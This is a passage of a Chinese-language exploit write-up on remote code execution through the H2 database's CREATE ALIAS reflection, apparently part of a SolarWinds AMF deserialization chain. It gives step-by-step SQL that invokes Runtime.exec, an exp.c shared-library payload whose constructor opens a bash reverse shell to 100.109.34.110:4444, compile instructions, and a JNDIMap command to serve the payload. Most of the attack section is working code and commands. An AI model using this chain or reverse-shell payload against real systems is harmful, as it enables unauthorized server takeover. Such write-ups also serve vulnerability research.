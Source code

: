 `JAVA_OBJECT` 对应的 Java 对象必须是可序列化的 (Serializable)

假如要执行 `java.lang.Runtime.getRuntime().exec(cmd)`, SQL 语句如下

```plain
CREATE ALIAS INVOKE_STATIC_METHOD FOR '...'
CREATE ALIAS INVOKE_METHOD FOR '...'
CREATE ALIAS CLASS_FOR_NAME FOR '...'

SET @clazz=CLASS_FOR_NAME('java.lang.Runtime')
SET @runtime=INVOKE_STATIC_METHOD(@clazz, 'getRuntime', NULL)
CALL INVOKE_METHOD(@runtime, 'exec', 'open -a Calculator')
```

上述过程中 JVM 返回的 Class 对象和 Runtime 对象会被序列化保存在 H2 数据库的 clazz 和 runtime 变量内 (类型为 `JAVA_OBJECT`)

而 java.lang.Runtime 没有实现 Serializable 接口, 因此 SQL 语句会报错, 即需要保证过程中使用的所有变量都得是可序列化的

至于为什么还要专门找一个反射调用静态方法的 invokeStaticMethod, 这是因为上面通过 invokeMethod 调用 getAbsolutePath 返回的临时文件路径的类型为 java.lang.Object (实际上为 java.lang.String)

但是 H2 不支持 `JAVA_OBJECT` 与 VARCHAR (CHARACTER VARYING) 之间的类型转换, 也就无法将路径作为参数传入 `java.lang.System.load(java.lang.String)`

[https://github.com/h2database/h2database/issues/3389](https://github.com/h2database/h2database/issues/3389)

因此需要找到一个参数类型为 java.lang.Object 的静态方法 (invokeStaticMethod), 然后通过这个方法间接调用 System.load, 进而加载动态链接库实现 RCE

最后要注意编译出来的 .so 比较大, 转成 Hex 后字符串的长度过长, 直接写会报错, 需要分块写入

利用流程:

首先编写 exp.c

```plain
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/100.109.34.110/4444 0>&1'");
}
```

编译

```plain
# Linux amd64
gcc -shared -fPIC exp.c -o exp.so
```

根据之前的代码生成 payload.amf

然后将 Groovy payload 保存, 运行 [JNDIMap](https://github.com/X1r0z/JNDIMap)

```plain
java -jar JNDIMap.jar -f scripts/solarwinds-amf-rce-1.groovy -u "/Custom/x"
```
